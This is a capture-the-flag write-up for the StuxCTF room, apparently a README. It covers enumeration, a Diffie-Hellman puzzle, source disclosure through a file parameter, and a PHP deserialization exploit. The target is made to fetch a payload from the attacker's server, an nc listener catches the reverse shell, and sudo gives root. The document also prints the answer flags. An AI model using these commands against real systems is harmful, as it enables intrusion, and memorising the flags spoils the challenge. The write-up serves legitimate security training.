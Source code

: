 # StuxCTF

## enumeration

```bash
nmap $IP -sV -sC -oN nmap
```

ports:

- 22 (ssh)

- 80 (Apache httpd)


```bash
curl $IP -o webpage/index.html # -> Diffie-Hellman values
```



Given the values

$g = 7$, \
$a = 330$, \
$b = 450$, \
$p = 9975298661...251$, \
$g^c = 6091917800...617$


calculate the secret S using Diffie-Hellman: \
$S = (g^c)^a \mod p)^b \mod p$

Using [dh\_solver](./dh_solver.py):

```bash
./dh_solver.py # -> 47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
```

### "What is the hidden directory?"

==> **47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055**


## website

From here, `$secret_page` will substitute for `$IP/4731502893...055`

Going to `$secret_page` shows a 'Home' button which redirects to `$secret_page/index.php`. \
In the html source is another hint: '/?file=', which seems to be a url parameter.

Trying `$secret_page/?file=user.txt` or `$secret_page/?file=root.txt` sadly only returns 'File no Exist!', however, trying `$secret_page/?file=index.php` returns a 5497 character long hexadecimal string

```bash
curl "$secret_page/?file=index.php" | grep -Eo '^[0-9a-f]+' > secret_text.txt
```

Using [cyberchef](cyberchef.org) with the contents of secret\_text.txt as input and the following recipe:

1. From Hex
2. Reverse
3. From Base64

we get the source code of index.php  -> ./webpage/secret/index.php

On line 22 of ./webpage/secret/index.php is:
```php
unserialize(file_get_contents($file_name));
```

file\_get\_contents can be used to fetch data from a remote server and unserialize can be used to load malicious code.


This code can be generated by running exploit.php:
```bash
php exploit.php > exploit.txt
```

## exploitation
```bash
# shell 1
python -m http.server 8080
```
```bash
# shell 2
nc -lnvp 4444
```
```bash
# shell 3
curl "$secret_page/?file=http://$localip:8080/exploit.txt" # upload the exploit

curl "$secret_page/exploit.php" # run the exploit
```

Shell 1 & 3 can then be closed.

```bash
# in shell 2 (reverse shell)
export TERM=xterm
echo "import pty; pty.spawn('/bin/bash')" > /tmp/upgrade.py
python /tmp/upgrade.py

ls /home # -> grecia
ls /home/grecia # -> user.txt
cat /home/grecia/user.txt # -> 0b6044b7807dd100b9e30f1bd09db53fo

sudo -i
pwd # -> /root
ls # -> root.txt
cat root.txt # -> 0028454003b42601548df551b738976c
```

### "user.txt"

==> **0b6044b7807dd100b9e30f1bd09db53f**


### "root.txt"

==> **0028454003b42601548df551b738976c**
